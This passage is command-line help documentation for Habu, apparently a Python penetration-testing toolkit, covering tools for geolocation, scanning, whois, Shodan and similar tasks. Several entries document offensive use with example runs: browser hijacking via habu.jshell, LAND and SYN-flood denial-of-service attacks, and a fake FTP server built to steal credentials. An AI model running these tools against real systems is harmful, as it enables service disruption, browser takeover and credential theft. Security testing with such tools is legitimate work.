    Usage: habu.ip.geolocation [OPTIONS] IP_ADDRESS
    
      Get the geolocation of an IP adddress from https://ipapi.co/.
    
      Example:
    
      $ habu.ip.geolocation 8.8.8.8
      {
          "ip": "8.8.8.8",
          "city": "Mountain View",
          ...
          "asn": "AS15169",
          "org": "Google LLC"
      }
    
    Options:
      -v      Verbose output.
      --help  Show this message and exit.
    

habu.ip.internal
----------------

.. code-block::

    Usage: habu.ip.internal [OPTIONS]
    
      Get the local IP address(es) of the local interfaces.
    
      Example:
    
      $ habu.ip.internal
      {
        "lo": {
          "ipv4": [
            {
              "addr": "127.0.0.1",
              "netmask": "255.0.0.0",
              "peer": "127.0.0.1"
            }
          ],
          "link_layer": [
            {
              "addr": "00:00:00:00:00:00",
              "peer": "00:00:00:00:00:00"
            }
          ],
          "ipv6": [
            {
              "addr": "::1",
              "netmask": "ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff/128"
            }
          ]
        },
      ...
    
    Options:
      -v      Verbose output.
      --help  Show this message and exit.
    

habu.isn
--------

.. code-block::

    Usage: habu.isn [OPTIONS] IP
    
      Create TCP connections and print the TCP initial sequence numbers for each
      one.
    
      $ sudo habu.isn -c 5 www.portantier.com
      1962287220
      1800895007
      589617930
      3393793979
      469428558
    
      Note: You can get a graphical representation (needs the matplotlib
      package) using the '-g' option to better understand the randomness.
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -c INTEGER  How many packets to send/receive (default: 5)
      -i TEXT     Interface to use
      -g          Graph (requires matplotlib)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.jshell
-----------

.. code-block::

    Usage: habu.jshell [OPTIONS]
    
      Control a web browser through Websockets.
    
      Bind a port (default: 3333) and listen for HTTP connections.
    
      On connection, send a JavaScript code that opens a WebSocket that can be
      used to send commands to the connected browser.
    
      You can write the commands directly in the shell, or use plugins, that are
      simply external JavaScript files.
    
      Using habu.jshell you can completely control a web browser.
    
      Reference: https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API
    
      Example:
    
      $ habu.jshell
      >> Listening on 192.168.0.10:3333. Waiting for a victim connection.
      >> HTTP Request received from 192.168.0.15. Sending hookjs
      >> Connection from 192.168.0.15
      $ _sessions
      0 * 192.168.0.15:33432 Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
      $ _info
      {
          "user-agent": "Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0",
          "location": "http://192.168.0.10:3333/",
          "java-enabled": false,
          "platform": "Linux x86_64",
          "app-code-name": "Mozilla",
          "app-name": "Netscape",
          "app-version": "5.0 (X11)",
          "cookie-enabled": true,
          "language": "es-AR",
          "online": true
      }
      $ document.location
      http://192.168.0.10:3333/
    
    Options:
      -v          Verbose
      -i TEXT     IP to listen on
      -p INTEGER  Port to listen on
      --help      Show this message and exit.
    

habu.karma
----------

.. code-block::

    Usage: habu.karma [OPTIONS] HOST
    
      Use the Karma service https://karma.securetia.com to check an IP against
      various Threat Intelligence / Reputation lists.
    
      $ habu.karma www.google.com
      www.google.com -> 64.233.190.99
      [
          "hphosts_fsa",
          "hphosts_psh",
          "hphosts_emd"
      ]
    
      Note: You can use the hostname or the IP of the host to query.
    
    Options:
      --help  Show this message and exit.
    

habu.karma.bulk
---------------

.. code-block::

    Usage: habu.karma.bulk [OPTIONS] [INFILE]
    
      Show which IP addresses are inside blacklists using the Karma online
      service.
    
      Example:
    
      $ cat /var/log/auth.log | habu.extract.ipv4 | habu.karma.bulk
      172.217.162.4   spamhaus_drop,alienvault_spamming
      23.52.213.96    CLEAN
      190.210.43.70   alienvault_malicious
    
    Options:
      --json  JSON output
      --bad   Show only entries in blacklists
      -v      Verbose output
      --help  Show this message and exit.
    

habu.land
---------

.. code-block::

    Usage: habu.land [OPTIONS] IP
    
      This command implements the LAND attack, that sends packets forging the
      source IP address to be the same that the destination IP. Also uses the
      same source and destination port.
    
      The attack is very old, and can be used to make a Denial of Service on old
      systems, like Windows NT 4.0. More information here:
      https://en.wikipedia.org/wiki/LAND
    
      # sudo habu.land 172.16.0.10
      ............
    
      Note: Each dot (.) is a sent packet. You can specify how many packets send
      with the '-c' option. The default is never stop. Also, you can specify the
      destination port, with the '-p' option.
    
    Options:
      -c INTEGER  How many packets send (default: infinit)
      -p INTEGER  Port to use (default: 135)
      -i TEXT     Interface to use
      -v          Verbose
      --help      Show this message and exit.
    

habu.nc
-------

.. code-block::

    Usage: habu.nc [OPTIONS] HOST PORT
    
      Some kind of netcat/ncat replacement.
    
      The execution emulates the feeling of this popular tools.
    
      Example:
    
      $ habu.nc --crlf www.portantier.com 80
      Connected to 45.77.113.133 80
      HEAD / HTTP/1.0
    
      HTTP/1.0 301 Moved Permanently
      Date: Thu, 26 Jul 2018 21:10:51 GMT
      Server: OpenBSD httpd
      Connection: close
      Content-Type: text/html
      Content-Length: 443
      Location: https://www.portantier.com/
    
    Options:
      --family [4|6|46]            IP Address Family
      --ssl                        Enable SSL
      --crlf                       Use CRLF for EOL sequence
      --protocol [tcp|udp]         Layer 4 protocol to use
      --source-ip TEXT             Source IP to use
      --source-port INTEGER RANGE  Source port to use
      --help                       Show this message and exit.
    

habu.nmap.excluded
------------------

.. code-block::

    Usage: habu.nmap.excluded [OPTIONS]
    
      Prints a random port that is not present on nmap-services file so is not
      scanned automatically by nmap.
    
      Useful for services like SSH or RDP, that are continuously scanned on
      their default ports.
    
      Example:
    
      # habu.nmap.excluded
      58567
    
    Options:
      -l INTEGER RANGE  Lowest port to consider
      -h INTEGER RANGE  Highest port to consider
      --help            Show this message and exit.
    

habu.nmap.open
--------------

.. code-block::

    Usage: habu.nmap.open [OPTIONS] SCANFILE
    
      Read an nmap report and print the open ports.
    
      Print the ports that has been resulted open reading the generated nmap
      output.
    
      You can use it to rapidly reutilize the port list for the input of other
      tools.
    
      Supports and detects the 3 output formats (nmap, gnmap and xml)
    
      Example:
    
      # habu.nmap.open portantier.nmap
      22,80,443
    
    Options:
      -p [tcp|udp|sctp]  The protocol (default=tcp)
      --help             Show this message and exit.
    

habu.nmap.ports
---------------

.. code-block::

    Usage: habu.nmap.ports [OPTIONS] SCANFILE
    
      Read an nmap report and print the tested ports.
    
      Print the ports that has been tested reading the generated nmap output.
    
      You can use it to rapidly reutilize the port list for the input of other
      tools.
    
      Supports and detects the 3 output formats (nmap, gnmap and xml)
    
      Example:
    
      # habu.nmap.ports portantier.nmap
      21,22,23,80,443
    
    Options:
      -p [tcp|udp|sctp]  The protocol (default=tcp)
      --help             Show this message and exit.
    

habu.ping
---------

.. code-block::

    Usage: habu.ping [OPTIONS] IP
    
      The classic ping tool that send ICMP echo requests.
    
      # habu.ping 8.8.8.8
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
    
    Options:
      -i TEXT     Wich interface to use (default: auto)
      -c INTEGER  How many packets send (default: infinit)
      -t INTEGER  Timeout in seconds (default: 2)
      -w INTEGER  How many seconds between packets (default: 1)
      -v          Verbose
      --help      Show this message and exit.
    

habu.protoscan
--------------

.. code-block::

    Usage: habu.protoscan [OPTIONS] IP
    
      Send IP packets with different protocol field content to guess what layer
      4 protocols are available.
    
      The output shows which protocols doesn't generate a 'protocol-unreachable'
      ICMP response.
    
      Example:
    
      $ sudo python cmd_ipscan.py 45.77.113.133
      1   icmp
      2   igmp
      4   ipencap
      6   tcp
      17  udp
      41  ipv6
      47  gre
      50  esp
      51  ah
      58  ipv6_icmp
      97  etherip
      112 vrrp
      115 l2tp
      132 sctp
      137 mpls_in_ip
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Timeout for each probe (default: 2 seconds)
      --all       Probe all protocols (default: Defined in /etc/protocols)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.server.ftp
---------------

.. code-block::

    Usage: habu.server.ftp [OPTIONS]
    
      Basic fake FTP server, whith the only purpose to steal user credentials.
    
      Supports SSL/TLS.
    
      Example:
    
      # sudo habu.server.ftp --ssl --ssl-cert /tmp/cert.pem --ssl-key /tmp/key.pem
      Listening on port 21
      Accepted connection from ('192.168.0.27', 56832)
      Credentials collected from 192.168.0.27! fabian 123456
    
    Options:
      -a TEXT          Address to bind (default: all)
      -p INTEGER       Which port to use (default: 21)
      --ssl            Enable SSL/TLS (default: False)
      --ssl-cert TEXT  SSL/TLS Cert file
      --ssl-key TEXT   SSL/TLS Key file
      -v               Verbose
      --help           Show this message and exit.
    

habu.shodan
-----------

.. code-block::

    Usage: habu.shodan [OPTIONS] IP
    
      Simple shodan API client.
    
      Prints the JSON result of a shodan query.
    
      Example:
    
      $ habu.shodan 8.8.8.8
      {
          "hostnames": [
              "google-public-dns-a.google.com"
          ],
          "country_code": "US",
          "org": "Google",
          "data": [
              {
                  "isp": "Google",
                  "transport": "udp",
                  "data": "Recursion: enabled",
                  "asn": "AS15169",
                  "port": 53,
                  "hostnames": [
                      "google-public-dns-a.google.com"
                  ]
              }
          ],
          "ports": [
              53
          ]
      }
    
    Options:
      -c           Disable cache
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

habu.shodan.open
----------------

.. code-block::

    Usage: habu.shodan.open [OPTIONS] IP
    
      Output the open ports for an IP against shodan (nmap format).
    
      Example:
    
      $ habu.shodan.open 8.8.8.8
      T:53,U:53
    
    Options:
      -c           Disable cache
      -j           Output in JSON format
      -x           Output an nmap command to scan open ports
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

habu.shodan.query
-----------------

.. code-block::

    Usage: habu.shodan.query [OPTIONS] QUERY
    
      Simple shodan API client.
    
      Prints the JSON result of a shodan query.
    
      Example:
    
      $ habu.shodan 8.8.8.8
      {
          "hostnames": [
              "google-public-dns-a.google.com"
          ],
          "country_code": "US",
          "org": "Google",
          "data": [
              {
                  "isp": "Google",
                  "transport": "udp",
                  "data": "Recursion: enabled",
                  "asn": "AS15169",
                  "port": 53,
                  "hostnames": [
                      "google-public-dns-a.google.com"
                  ]
              }
          ],
          "ports": [
              53
          ]
      }
    
    Options:
      -c           Disable cache
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

habu.synflood
-------------

.. code-block::

    Usage: habu.synflood [OPTIONS] IP
    
      Launch a lot of TCP connections and keeps them opened.
    
      Some very old systems can suffer a Denial of Service with this.
    
      Reference: https://en.wikipedia.org/wiki/SYN_flood
    
      Example:
    
      # sudo habu.synflood 172.16.0.10
      .................
    
      Each dot is a packet sent.
    
      You can use the options '-2' and '-3' to forge the layer 2/3 addresses.
    
      If you use them, each connection will be sent from a random layer2 (MAC)
      and/or layer3 (IP) address.
    
      You can choose the number of connections to create with the option '-c'.
      The default is never stop creating connections.
    
      Note: If you send the packets from your real IP address and you want to
      keep the connections half-open, you need to setup for firewall to don't
      send the RST packets.
    
    Options:
      -i TEXT     Wich interface to use (default: auto)
      -c INTEGER  How many packets send (default: infinit)
      -p INTEGER  Port to use (default: 135)
      -2          Forge layer2/MAC address (default: No)
      -3          Forge layer3/IP address (default: No)
      -v          Verbose
      --help      Show this message and exit.
    

habu.tcpflags
-------------

.. code-block::

    Usage: habu.tcpflags [OPTIONS] IP
    
      Send TCP packets with different flags and tell what responses receives.
    
      It can be used to analyze how the different TCP/IP stack implementations
      and configurations responds to packet with various flag combinations.
    
      Example:
    
      # habu.tcpflags www.portantier.com
      S  -> SA
      FS -> SA
      FA -> R
      SA -> R
    
      By default, the command sends all possible flag combinations. You can
      specify which flags must ever be present (reducing the quantity of
      possible combinations), with the option '-f'.
    
      Also, you can specify which flags you want to be present on the response
      packets to show, with the option '-r'.
    
      With the next command, you see all the possible combinations that have the
      FIN (F) flag set and generates a response that contains the RST (R) flag.
    
      Example:
    
      # habu.tcpflags -f F -r R www.portantier.com
      FPA  -> R
      FSPA -> R
      FAU  -> R
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -f TEXT     Flags that must be sent ever (default: fuzz with all flags)
      -r TEXT     Filter by response flags (default: show all responses)
      -v          Verbose
      --help      Show this message and exit.
    

habu.tcpscan
------------

.. code-block::

    Usage: habu.tcpscan [OPTIONS] IP
    
      TCP Port Scanner.
    
      Print the ports that generated a response with the SYN flag or (if show
      use -a) all the ports that generated a response.
    
      It's really basic compared with nmap, but who is comparing?
    
      Example:
    
      # habu.tcpscan -p 22,23,80,443 -s 1 45.77.113.133
      22 S -> SA
      80 S -> SA
      443 S -> SA
    
    Options:
      -p TEXT     Ports to use (default: 80) example: 20-23,80,135
      -i TEXT     Interface to use
      -f TEXT     Flags to use (default: S)
      -s TEXT     Time between probes (default: send all together)
      -t INTEGER  Timeout for each probe (default: 2 seconds)
      -a          Show all responses (default: Only containing SYN flag)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.traceroute
---------------

.. code-block::

    Usage: habu.traceroute [OPTIONS] IP
    
      TCP traceroute.
    
      Identify the path to a destination getting the ttl-zero-during-transit
      messages.
    
      Note: On the internet, you can have various valid paths to a device.
    
      Example:
    
      # habu.traceroute 45.77.113.133
      IP / ICMP 192.168.0.1 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
      IP / ICMP 10.242.4.197 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
      IP / ICMP 200.32.127.98 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
      .
      IP / ICMP 4.16.180.190 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
      .
      IP / TCP 45.77.113.133:http > 192.168.0.5:ftp_data SA / Padding
    
      Note: It's better if you use a port that is open on the remote system.
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -i TEXT     Interface to use
      --help      Show this message and exit.
    

habu.usercheck
--------------

.. code-block::

    Usage: habu.usercheck [OPTIONS] USERNAME
    
      Check if the given username exists on various social networks and other
      popular sites.
    
      $ habu.usercheck portantier
      {
          "aboutme": "https://about.me/portantier",
          "disqus": "https://disqus.com/by/portantier/",
          "github": "https://github.com/portantier/",
          "ifttt": "https://ifttt.com/p/portantier",
          "lastfm": "https://www.last.fm/user/portantier",
          "medium": "https://medium.com/@portantier",
          "pastebin": "https://pastebin.com/u/portantier",
          "pinterest": "https://in.pinterest.com/portantier/",
          "twitter": "https://twitter.com/portantier",
          "vimeo": "https://vimeo.com/portantier"
      }
    
    Options:
      -c      Disable cache
      -v      Verbose output
      -w      Open each valid url in a webbrowser
      --help  Show this message and exit.
    

habu.vhosts
-----------

.. code-block::

    Usage: habu.vhosts [OPTIONS] HOST
    
      Use Bing to query the websites hosted on the same IP address.
    
      $ habu.vhosts www.telefonica.com
      www.telefonica.com -> 212.170.36.79
      [
          'www.telefonica.es',
          'universitas.telefonica.com',
          'www.telefonica.com',
      ]
    
    Options:
      -c          Disable cache
      -p INTEGER  Pages count (Default: 10)
      -f INTEGER  First result to get (Default: 1)
      --help      Show this message and exit.
    

habu.virustotal
---------------

.. code-block::

    Usage: habu.virustotal [OPTIONS] INPUT
    
      Send a file to VirusTotal https://www.virustotal.com/ and print the report
      in JSON format.
    
      Note: Before send a file, will check if the file has been analyzed before
      (sending the sha256 of the file), if a report exists, no submission will
      be made, and you will see the last report.
    
      $ habu.virustotal meterpreter.exe
      Verifying if hash already submitted: f4826b219aed3ffdaa23db26cfae611979bf215984fc71a1c12f6397900cb70d
      Sending file for analysis
      Waiting/retrieving the report...
      {
          "md5": "0ddb015b5328eb4d0cc2b87c39c49686",
          "permalink": "https://www.virustotal.com/file/c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23/analysis/1526850717/",
          "positives": 49,
          "resource": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
          "response_code": 1,
          "scan_date": "2018-05-20 21:11:57",
          "scan_id": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23-1526850717",
          "scans": {
              "ALYac": {
                  "detected": true,
                  "result": "Trojan.CryptZ.Gen",
                  "update": "20180520",
                  "version": "1.1.1.5"
              },
              ... The other scanners ...
          },
          "sha1": "5fa33cab1729480dd023b08f7b91a945c16d0a9e",
          "sha256": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
          "total": 67,
          "verbose_msg": "Scan finished, information embedded"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.web.report
---------------

.. code-block::

    Usage: habu.web.report [OPTIONS] [INPUT_FILE]
    
      Makes a report that includes HTTP headers of websites.
    
      Optionally, uses Firefox or Chromium to take a screenshot of the websites.
    
      The expected format is one url per line.
    
      Creates a directory called 'report' with the content inside.
    
      $ echo https://www.portantier.com | habu.web.report
    
    Options:
      -v                             Verbose output
      -s                             Take a screenshot for each website
      -b [firefox|chromium-browser]  Browser to use for screenshot.
      --help                         Show this message and exit.
    

habu.web.screenshot
-------------------

.. code-block::

    Usage: habu.web.screenshot [OPTIONS] URL
    
      Uses Firefox or Chromium to take a screenshot of the website.
    
      $ habu.web.screenshot https://www.portantier.com
    
    Options:
      -b [firefox|chromium-browser]  Browser to use for screenshot.
      -o TEXT                        Output file. (default: screenshot.png)
      --help                         Show this message and exit.
    

habu.web.tech
-------------

.. code-block::

    Usage: habu.web.tech [OPTIONS] URL
    
      Use Wappalyzer apps.json database to identify technologies used on a web
      application.
    
      Reference: https://github.com/AliasIO/Wappalyzer
    
      Note: This tool only sends one request. So, it's stealth and not
      suspicious.
    
      $ habu.web.tech https://woocomerce.com
      {
          "Nginx": {
              "categories": [
                  "Web Servers"
              ]
          },
          "PHP": {
              "categories": [
                  "Programming Languages"
              ]
          },
          "WooCommerce": {
              "categories": [
                  "Ecommerce"
              ],
              "version": "6.3.1"
          },
          "WordPress": {
              "categories": [
                  "CMS",
                  "Blogs"
              ]
          },
      }
    
    Options:
      -c      Disable cache
      -v      Verbose output
      --help  Show this message and exit.
    

habu.whois.domain
-----------------

.. code-block::

    Usage: habu.whois.domain [OPTIONS] DOMAIN
    
      Simple whois client to check domain names.
    
      Example:
    
      $ habu.whois.domain portantier.com
      {
          "domain_name": "portantier.com",
          "registrar": "Amazon Registrar, Inc.",
          "whois_server": "whois.registrar.amazon.com",
          ...
    
    Options:
      --help  Show this message and exit.
    

habu.whois.ip
-------------

.. code-block::

    Usage: habu.whois.ip [OPTIONS] IP
    
      Simple whois client to check IP addresses (IPv4 and IPv6).
    
      Example:
    
      $ habu.whois.ip 8.8.8.8
      {
          "nir": null,
          "asn_registry": "arin",
          "asn": "15169",
          "asn_cidr": "8.8.8.0/24",
          "asn_country_code": "US",
          "asn_date": "1992-12-01",
          "asn_description": "GOOGLE - Google LLC, US",
          "query": "8.8.8.8",
          ...
    
    Options:
      --help  Show this message and exit.
    

habu.xor
--------

.. code-block::

    Usage: habu.xor [OPTIONS]
    
      XOR cipher.
    
      Note: XOR is not a 'secure cipher'. If you need strong crypto you must use
      algorithms like AES. You can use habu.fernet for that.
    
      Example:
    
      $ habu.xor -k mysecretkey -i /bin/ls > xored
      $ habu.xor -k mysecretkey -i xored > uxored
      $ sha1sum /bin/ls uxored
      $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  /bin/ls
      $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  uxored
    
    Options:
      -k TEXT      Encryption key
      -i FILENAME  Input file (default: stdin)
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

